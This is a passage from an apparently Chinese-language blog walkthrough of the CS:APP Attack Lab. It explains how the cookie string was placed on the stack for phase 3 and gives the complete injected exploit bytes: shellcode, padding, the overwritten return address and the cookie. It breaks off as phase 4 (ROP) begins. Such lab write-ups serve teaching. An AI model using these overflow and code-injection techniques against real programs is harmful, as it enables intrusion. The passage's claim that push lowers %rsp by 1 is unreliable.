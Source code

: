 cooike的ascii码很简单, 对照ascii码表即可得:

```CQL
35 39 62 39 39 37 66 61 00 /* 9 bytes */ 
```

唯一值得注意的是, 要在末尾添加\0表示c 字符串的结束.

难点在于确定位置: 说说我做的时候遇到的问题:

之所以难以确定字符串存放的位置, 是因为后续的hexmatch和stringncmp函数会覆盖buf的stack空间.

- 我最初想的是, 将字符串存放在一个相对很低的位置, 让后续的两个函数不会产生覆盖. 但是这样的问题是, cooike string无法进行硬编码. 毕竟没有指令可以直接写字符串到内存中, 倒是可以一个个字符的写入, 但是这样我们的exploit string会过长, 于是这个方法废弃了.

- 说第二想法之前, 我们先看看后续的程序会对stack空间做些什么:

  ![image-20200721090502836](https://ravenxrz-blog.oss-cn-chengdu.aliyuncs.com/img/github_img/image-20200721090502836.png)

  那字符串到底放在哪里? 我尝试了将字符串放在了buf的stack顶端和低端, 如下两图:

  ![image-20200721090628772](https://ravenxrz-blog.oss-cn-chengdu.aliyuncs.com/img/github_img/image-20200721090628772.png)

  经过gdb调试,两者都会被覆盖, 所以这个方案也被pass掉了.

  继续思考, 放在内存的低端的确很容易被覆盖,因为hexmatch函数中有个随机从某个位置开始写入cbuf的操作, 所以低端是没法用的. 只能考虑高端, 高端是由 push压入regs导致的覆盖, 只要避免了这个就好了. 回忆以下push指令是如何工作的, 

  ```asm
  push reg
  ```

  reg被压入%rsp当前指向的内存空间, 然后%rsp-1

  所以我们可以直接继续覆盖, 看示意图:

![image-20200721091909441](https://ravenxrz-blog.oss-cn-chengdu.aliyuncs.com/img/github_img/5f16832c14195aa594b36a03.png)

可以得到注入代码:

```asm
/* question3: */
48 c7 c7 a8 dc 61 55 /* mov $0x5561dca8,%rdi 设置$rdi指向string内存地址 */
68 fa 18 40 00       /* pushq  $0x4018fa     push touch3的地址 */
c3                   /* ret                  返回 */
/* 上面一共13个字节, buf一共40个字节所以需要填充 40-13=27个字节 */
00 00 00 00 00 00 00 00 /* 8 bytes */
00 00 00 00 00 00 00 00 /* 8 bytes */
00 00 00 00 00 00 00 00 /* 8 bytes */
00 00 00                /* 3 bytes */
78 dc 61 55 00 00 00 00 /* exploit string code 的开始地址（即get buf的栈地地址) */
35 39 62 39 39 37 66 61 00 /* 继续覆盖为cookie string */
```

## 4. Phase 4

从这个阶段开始, 就是aop攻击的内容了. 所以在继续之前, 一定要知道rop攻击的理论基础. 
